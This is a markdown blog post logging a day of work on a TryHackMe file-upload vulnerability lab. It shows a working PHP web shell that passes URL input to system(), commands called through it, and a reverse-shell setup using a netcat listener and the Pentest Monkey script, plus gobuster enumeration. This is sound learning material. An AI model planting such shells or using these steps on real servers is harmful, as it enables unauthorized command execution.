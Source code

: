 ```yaml
---
title: Day 23
date: 2022-05-06
layout: post.njk
---
```


{{ page.date.toDateString }}

Today I'm wokring on the [Upload Vulnerabilities](https://tryhackme.com/room/uploadvulns) module. I think really understanding how to take advantage of file upload vulnerabilities could be a huge help in finding bug bounties.

Theres a few different things you can do with file upload vulnerabilites:
- Overwriting existing files on a server
- Uploading and Executing Shells on a server
- Bypassing Client-Side filtering
- Bypassing various kinds of Server-Side filtering
- Fooling content type validation checks

## Overwriting Existing Files
The first exercise is overwriting a file. The first site has a file upload with a picture for the background. I looked at the source for the image and it was `images/mountains.jpg` so I copied a local image to have the same name `mountains.jpg` and uploaded it and got the flag.

## Remote Code Execution
The second exercise was taking advantage of an RCE. The two main options:
- Web shells
- Reverse Shells

### Web Shell
A webshell would be uploading a file with code that is the same as the backend. Then referencing it and using the ulr to pass commands. For example I use gobuster to do some directory enumeration. I see that there is a upload directory and I make the assumption that files are uploaded there. I assume the backend is running PHP.  so I upload `webshell.php` which is just:

>`<?php`
>
>    `echo system($_GET["cmd"]);`
>
>`?>`

the I use the url `/uploads/webshell.php?cmd=id;whoami;ls` and view the page and I'll see the result of those commands being run. From here we can do anything including upgrading to a reverse shell.

### Reverse Shell
Is when you have an interactive shell in a terminal. The process for doing this is essentially the same as the webshell you take a file like [Pentest Monkey reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) that matches the backend code being used by the application and input your IP. You open a netcat listener on the correct port using `nc -lvnp 1234`. You upload the file, then navigate to the file in your browser. This time the browser will hang but if you look back at the terminal you should have a connection.

### Practical
In this exercise I start by running gobuster to enumerate the directories using `gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

I got the results:
>`/resources`
>
>`/assets`
>
>`/server-status`

I attempted to upload to `/resources` I did both the web shell upload and the reverse shell uploads successfully. 

This seemed like a good palce to stop today so I'll pick up the rest of this tomorrow.

